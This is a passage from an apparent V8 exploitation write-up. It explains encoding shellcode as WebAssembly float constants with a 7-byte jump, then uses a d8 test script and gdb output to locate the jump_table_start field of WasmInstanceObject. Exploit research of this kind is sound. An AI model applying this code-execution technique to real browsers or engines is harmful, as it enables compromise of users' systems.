 From here, we could reason out how many bytes do we need to jump from one shellcode
to another shellcode. The answer is 7 bytes. Now that we have the jump offset,
we could tweak the shellcode conversion script from `starlabs` and use it
to generate our floating number shellcode. The modified script can be found
[here](#python3-script-for-shellcode-to-floating-numbers).

The next step is to analyse when is this `WasmInstanceObject.jump_table_start`
field accessed using debugger with debug version of `d8`.

```js
// wasm.js
var code = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 5, 1, 96, 0, 1, 124, 3, 2, 1, 0, 7, 8, 1, 4, 109, 97, 105, 110, 0, 0, 10, 33, 1, 31, 0, 68, 61, 10, 215, 163, 112, 189, 42, 64, 68, 164, 112, 61, 10, 215, 171, 96, 64, 68, 20, 174, 71, 225, 122, 213, 148, 64, 26, 26, 11]);
var module = new WebAssembly.Module(code);
var instance = new WebAssembly.Instance(module, {});
eval("%DebugPrint(instance)")
eval("%SystemBreak")
```

We could see the debug output of an `WasmInstanceObject` and the `jump_table_start`
field is located at offset `0x48`.

```console
$ gdb -ex 'run' --args './d8 --allow-natives-syntax --shell ./wasm.js'
DebugPrint: 0x3b01000da03d: [WasmInstanceObject] in OldSpace
 - map: 0x3b01000d13a1 <Map[208](HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x3b01000d144d <Object map = 0x3b01000da015>
 - elements: 0x3b01000006cd <FixedArray[0]> [HOLEY_ELEMENTS]
 - module_object: 0x3b01001c9a99 <Module map = 0x3b01000d1279>
 - exports_object: 0x3b01001c9ba9 <Object map = 0x3b01000da26d>
 - native_context: 0x3b01000c3c79 <NativeContext[285]>
 - memory_objects: 0x3b01000006cd <FixedArray[0]>
 - tables: 0x3b01000006cd <FixedArray[0]>
 - indirect_function_tables: 0x3b01000006cd <FixedArray[0]>
 - imported_function_refs: 0x3b01000006cd <FixedArray[0]>
 - indirect_function_table_refs: 0x3b01000006cd <FixedArray[0]>
 - wasm_internal_functions: 0x3b01001c9b79 <FixedArray[1]>
 - managed_object_maps: 0x3b01001c9b9d <FixedArray[1]>
 - feedback_vectors: 0x3b01000006cd <FixedArray[0]>
 - well_known_imports: 0x3b01000006cd <FixedArray[0]>
 - memory0_start: 0x3c00ffffffff
 - memory0_size: 0
 - new_allocation_limit_address: 0x5555557030d0
 - new_allocation_top_address: 0x5555557030c8
 - old_allocation_limit_address: 0x5555557030e8
 - old_allocation_top_address: 0x5555557030e0
 - imported_function_targets: 0x3b0100000e69 <ByteArray[0]>
 - globals_start: 0x3c00ffffffff
 - imported_mutable_globals: 0x3b0100000e69 <ByteArray[0]>
 - indirect_function_table_size: 0
 - indirect_function_table_sig_ids: 0x3b0100000e69 <ByteArray[0]>
 - indirect_function_table_targets: 0x3b0100006175 <ExternalPointerArray[0]>
 - isorecursive_canonical_types: 0x55555577d8a0
 - jump_table_start: 0x2ba49517a000
 - data_segment_starts: 0x3b0100000e69 <ByteArray[0]>
 - data_segment_sizes: 0x3b0100000e69 <ByteArray[0]>
 - element_segments: 0x3b01000006cd <FixedArray[0]>
 - hook_on_function_call_address: 0x555555702c09
 - tiering_budget_array: 0x555555774330
 - memory_bases_and_sizes: 0x3b0100000e69 <ByteArray[0]>
 - break_on_entry: 0
 - properties: 0x3b01000006cd <FixedArray[0]>
 - All own properties (excluding elements): {}

gef> tele 0x3b01000da03c 10
```
